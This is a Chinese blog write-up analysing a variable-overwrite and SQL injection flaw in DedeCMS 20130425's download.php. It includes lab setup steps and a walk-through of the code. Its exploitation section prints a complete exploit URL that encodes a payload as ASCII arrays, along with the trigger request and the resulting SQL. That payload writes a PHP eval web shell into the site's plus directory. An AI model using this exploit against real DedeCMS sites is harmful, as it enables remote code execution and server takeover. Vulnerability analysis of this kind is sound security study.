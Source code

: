 ```yaml
---
layout: post
title: "[web] dedecms download.php漏洞分析及利用"
categories: "WebSecurity"
---
```


该漏洞的EXP有很多文章分享，但是漏洞分析可能由于简单，所以没有人做分享，由于是第一篇文章，所以对环境的搭建也介绍一下 :)
<hr >


#### 0x0. 测试环境初始化

系统为：kali 2017.3

dedecms版本为： 20130425

web服务为： apache2

1.安装php5, php5-mysql,php5-gd,并安装apache2 php5模块

添加新的repo(为了安装php5，默认版本的源中只有php7)

	deb http://old.kali.org/kali sana main non-free contrib
	deb-src http://old.kali.org/kali sana main non-free contrib

	apt-get update

	apt-get install php5 php5-mysql php5-gd libapache2-mod-php5

2.关闭默认的apache2 php7的模块(我们测试的源码在php5版本)

	a2dismod php7.0
	systemctl restart apache2

在/var/www/html/下创建简单的info.php

	<?php phpinfo(); ?>

访问http://server-ip/info.php,检测是否能正常加载php5

3.创建mysql 库和用户权限(默认mysql kali自带)

配置mysql记录sql语句，在`/etc/mysql/mariadb.conf.d/50-server.cnf`

> general_log_file        = /var/log/mysql/mysql.log

> general_log             = 1
> 


	service mysql start
	mysql -uroot -p
	create database dedecms_20130425;
	grant all on dedecms_20130425.* to 'victim'@'127.0.0.1' identified by 'dedecms';
	flush privileges;

在/var/www/thml/下创建conn.php

	<?php
    $con = mysql_connect("127.0.0.1", "victim", "dedecms");
    if (!$con) {
        die('connect error!!!\n');
    }   
    echo "connected successfully\n";
    mysql_close($con);

访问http://server-ip/conn.php, 检测数据库连接

4.配置dedecms源码

最后将对应的dedecms的源码，放置到/var/www/html/dedecms目录下,并设置对应的权限

	chown www-data:www-data -R dedecms-20130425/	# www-data为apache2运行的用户

接着安装dedecms, http://server-ip/dedecms-20130425/install/index.php，检测画面如下

![dedecms]({{ '/images/201801/dedecms_0_1.png' | prepend: site.baseurl }})

gd我们已经安装，可以忽略这个错误，不会影响使用(后台登录可以正确识别出验证码)

![dedecms]({{ '/images/201801/dedecms_0_2.png' | prepend: site.baseurl }})

至此 我们的环境就已经搞定了

#### 0x01 漏洞描述

漏洞大致利用流程为： 先通过`/plus/download.php?open=1&arrs1[]=...&arrs2[]=...`(不展开详细的payload了)实现变量覆盖漏洞(dedecms这里是有防护变量覆盖，只是这次漏洞是由于arrs1和arrs2会在后续被chr函数处理，就是我们看到的一堆assic值)覆盖了全局变量`$_GLOBAL['cfg_dbprefix']`(payload中的arrs1就是代表的GLOBAL变量中的key值，而arrs2代表着是对应的value值)，覆盖后会在后续的`setquery`函数中将我们的payload拼接到SQL语句中，然后通过`/plus/ad_js.php?aid=1&nocache=1`的访问会将我们注入的payload查询输出到一个模板文件中，然后ad_js.php文件使用include包含该模板文件，触发了我们的payload，利用结束。

要实现getshell就需要把arrs2数组中的值直接添加`<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>` 相当于`$_GLOBAL['cfg_dbprefix'] = <?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');@fclose($fp);?>`

#### 0x02 漏洞分析

数据流会先通过`download.php`中的`include/common.inc.php`,会通过以下代码检查

![dedecms]({{ '/images/201801/dedecms_2_1.png' | prepend: site.baseurl }})

下图为`_RunMagicQuotes`,在该函数中会递归检查，除了key还有value

![dedecms]({{ '/images/201801/dedecms_2_2.png' | prepend: site.baseurl }})

通过以上代码一般的变量覆盖漏洞利用是失效的，因为无法包含关键字`cfg_`

但是在检查完后的代码中，后续会判断是否引入`dedesql.class.php`文件(这个文件是利用的关键)

![dedecms]({{ '/images/201801/dedecms_2_3.png' | prepend: site.baseurl }})

cfg_mysql_type默认配置为mysqli, 后续判断的mysqli_init(一般都存在)，所以该漏洞触发是比较严苛的。

全局变量都存在`data/config.cache.inc.php`中

![dedecms]({{ '/images/201801/dedecms_2_4.png' | prepend: site.baseurl }})

关键文件`include/dedesql.class.php`文件，漏洞代码

![dedecms]({{ '/images/201801/dedecms_2_5.png' | prepend: site.baseurl }})

全局变量没有过滤arrs1，和arrs2，并且传入的值会被遍历 通过chr函数解析。

此刻可以成功替换`$_GLOBAL['cfg_dbprefix']`值

接着代码流会继续执行download.php中的以下代码

![dedecms]({{ '/images/201801/dedecms_2_6.png' | prepend: site.baseurl }})

会执行函数`ExecuteNoneQuery2`，定义在`include/dedesql.class.php`文件

![dedecms]({{ '/images/201801/dedecms_2_7.png' | prepend: site.baseurl }})

引入漏洞函数`setquery`，定义如下：

![dedecms]({{ '/images/201801/dedecms_2_8.png' | prepend: site.baseurl }})

str_replace函数就是漏洞点，`UPDATE #@__downloads SET downloads = downloads + 1 WHERE hash='$hash'` 这个是要执行的sql语句，通过setquery将`#@__`替换成为我们之前的`$_GLOBAL['cfg_dbprefix']`的值， 最终到数据库的语句就成为以下语句：

	Query UPDATE `dede_myad` SET  normbody='<?php $fp = @fopen(''x.php'', ''a'');@fwrite($fp, ''<?php eval($_POST[w]) ?>'');echo ''fuckdede'';@fclose($fp);?>'  where aid =1 #downloads` SET downloads = downloads + 1 WHERE hash='d41d8cd98f00b204e9800998ecf8427e'

会更新表`dede_myad`中的`normbody`中的值，`aid`为1.

更为关键的一点在利用中，访问`/plus/ad_js.php`,会先查询指定aid的normbody，并写入到模板，最后include触发漏洞。

![dedecms]({{ '/images/201801/dedecms_2_9.png' | prepend: site.baseurl }})

#### 0x03 漏洞利用

利用的2个前提

一个是版本：通过`/data/admin/ver.txt`来确定 我使用的20130425

另外一个： `cfg_mysql_type == "mysqli"`,这个黑盒无法判断

因此利用的话只要版本合适，直接打payload，来检测

<pre>/plus/download.php?open=1&arrs1[]=99&arrs1[]=102&arrs1[]=103&arrs1[]=95&arrs1[]=100&arrs1[]=98&arrs1[]=112&arrs1[]=114&arrs1[]=101&arrs1[]=102&arrs1[]=105&arrs1[]=120&arrs2[]=109&arrs2[]=121&arrs2[]=97&arrs2[]=100&arrs2[]=96&arrs2[]=32&arrs2[]=83&arrs2[]=69&arrs2[]=84&arrs2[]=32&arrs2[]=32&arrs2[]=110&arrs2[]=111&arrs2[]=114&arrs2[]=109&arrs2[]=98&arrs2[]=111&arrs2[]=100&arrs2[]=121&arrs2[]=61&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=32&arrs2[]=61&arrs2[]=32&arrs2[]=64&arrs2[]=102&arrs2[]=111&arrs2[]=112&arrs2[]=101&arrs2[]=110&arrs2[]=40&arrs2[]=39&arrs2[]=39&arrs2[]=120&arrs2[]=46&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=39&arrs2[]=39&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=97&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=119&arrs2[]=114&arrs2[]=105&arrs2[]=116&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=44&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=60&arrs2[]=63&arrs2[]=112&arrs2[]=104&arrs2[]=112&arrs2[]=32&arrs2[]=101&arrs2[]=118&arrs2[]=97&arrs2[]=108&arrs2[]=40&arrs2[]=36&arrs2[]=95&arrs2[]=80&arrs2[]=79&arrs2[]=83&arrs2[]=84&arrs2[]=91&arrs2[]=119&arrs2[]=93&arrs2[]=41&arrs2[]=32&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=39&arrs2[]=41&arrs2[]=59&arrs2[]=101&arrs2[]=99&arrs2[]=104&arrs2[]=111&arrs2[]=32&arrs2[]=39&arrs2[]=39&arrs2[]=102&arrs2[]=117&arrs2[]=99&arrs2[]=107&arrs2[]=100&arrs2[]=101&arrs2[]=100&arrs2[]=101&arrs2[]=39&arrs2[]=39&arrs2[]=59&arrs2[]=64&arrs2[]=102&arrs2[]=99&arrs2[]=108&arrs2[]=111&arrs2[]=115&arrs2[]=101&arrs2[]=40&arrs2[]=36&arrs2[]=102&arrs2[]=112&arrs2[]=41&arrs2[]=59&arrs2[]=63&arrs2[]=62&arrs2[]=39&arrs2[]=32&arrs2[]=32&arrs2[]=119&arrs2[]=104&arrs2[]=101&arrs2[]=114&arrs2[]=101&arrs2[]=32&arrs2[]=97&arrs2[]=105&arrs2[]=100&arrs2[]=32&arrs2[]=61&arrs2[]=49&arrs2[]=32&arrs2[]=35
/plus/ad_js.php?aid=1&nocache=1

如果利用成功会在/plus/目录下写入x.php文件。
</pre>

#### 0x04 总结

漏洞利用可以能比较严格,漏洞虽然比较老，而且现在也找不到太多的实战目标， 不过通过了解漏洞的本质，可以让自己对漏洞的判断更加精确，让自己的基础更扎实。
